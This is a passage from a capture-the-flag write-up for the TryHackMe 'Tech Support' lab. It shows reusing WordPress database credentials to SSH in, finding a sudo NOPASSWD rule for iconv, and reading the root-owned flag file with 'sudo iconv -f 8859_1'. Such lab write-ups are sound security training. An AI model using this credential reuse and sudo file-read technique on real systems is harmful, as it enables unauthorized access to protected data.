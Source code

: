 ```
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', '[REDACTED]' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
Then, I was able to use the credentials and ssh into the target with a username that I saw in the home folder earlier. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ ssh scamsite@[Remote IP]
scamsite@[Remote IP]'s password: 

scamsite@TechSupport:/$ whoami
scamsite
scamsite@TechSupport:/$ id
uid=1000(scamsite) gid=1000(scamsite) groups=1000(scamsite),113(sambashare)
```
I looked for what I could run as sudo.
```
scamsite@TechSupport:/$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```
## Privilege Escalation
I checked GTFO Bins to see my options. It looks like running ```inconv``` with ```8859_1``` encoding allows you to run any single-byte sequence (```https://gtfobins.github.io/gtfobins/iconv/```). With that information, I was able to read the root flag! 
```
scamsite@TechSupport:/$ sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt"
[REDACTED] -
scamsite@TechSupport:/$ sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt" |  wc -c
44
```

## Assistance 
As referenced earlier, I used ```https://www.infosecarticles.com/tech-support-tryhackme-walkthrough/``` to point me to the credentials in the ```wp-config.php``` file to ssh. After that point, the walkthrough was not used. 